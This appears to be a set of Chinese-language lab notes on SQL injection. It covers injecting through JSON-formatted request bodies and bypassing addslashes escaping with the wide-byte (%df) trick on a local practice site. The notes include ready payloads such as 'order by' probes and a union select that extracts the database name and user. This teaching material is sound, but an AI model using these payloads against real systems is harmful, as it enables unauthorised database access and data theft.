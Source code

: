 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220518-b5e84dc3-c093-4b02-9077-f1203ef5efca.png)

JSON

```plain
json型  表现形式不一样，提交数据一样的
{“username”:"admin"}    键名和键值
取数据的时候，只会接收admin的值，不会接收双引号。

数据表现形式
json:
{"username":"admin","password":"xiaodi"}
常规：
username=admin&password=xiaodi

如何注入：
常规：username=admin and 1=1&password=xiaodi
json：{"username":"admin and 1=1","password":"xiaodi"}
```

json格式，参考：https://baike.baidu.com/item/JSON/2462549?fr=aladdin

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220468-2b318b4e-0018-4576-a99b-1535208db667.png)

json提交数据包格式：

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220450-9755bbbc-6872-4784-b4a1-3ef8e2d0086b.png)

```plain
json注入payload应该怎么构造呢？
这里使用到post提交json={"username":"admin' order by 3#"}
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220477-99591f98-778b-4748-a65c-09516ebb39a8.png)

```plain
查询用户和数据库名：
json={"username":"admin' and 1=2 union select 1,database(),user()#"}
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135220737-0cf1b5ee-ceab-46bc-9c83-70ad49a91478.png)

------

- 本地靶场-字符转义处理防护-宽字节注入

```plain
SQL注入接收数据，但是数据会出现/ \这种符号
转义函数：addslashes
\n 换行
\n 字符串，但是电脑以为你是换行
对字符串进行转义，\\n进行转义。

%df就可以进行绕过，利用宽字节
原理：利用繁体字或者乱码，来进行占用两个字节。
\ 一个字节
� 两个字节
中文 两个字节
用到了addslashes函数后，再次进行注入的时候
注入payload：http://127.0.0.1:8081/web/news.php?gtpl=simple' order by 17--+
但是实际上的SQL语句执行时候：select * from sy_guestbook where gTpl='simple\' order by 17--+'
对'进行了转义，变成了\'
```
